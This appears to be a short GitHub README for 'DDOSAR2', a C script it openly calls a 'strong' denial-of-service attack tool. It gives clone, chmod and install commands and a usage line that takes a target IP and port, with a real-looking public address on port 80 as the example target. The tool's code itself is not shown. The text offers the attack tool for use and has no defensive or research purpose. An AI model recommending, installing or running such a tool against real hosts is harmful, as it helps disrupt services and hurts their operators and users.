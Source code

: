 # DDOSAR2:
 * A C Script: For  denial of service attack(DOS ATTACK)
 * strong Attack Script

# INSTALL:
 - git clone https://github.com/Oseid/DDOSAR2.git
 - cd DDOSAR2/
 - chmod +x ddos.c install.sh
 - ./install.sh

# Usage:
  * cd DDOSAR2/
  * ./ddosar <targetIP> <PORT>

  - Example:
     ./ddosar 172.217.17.46 80


# That's All:)
 - This Script By Oseid Aldary
 - Thanks For using
 - Have A Nice Day, GoodBye :)

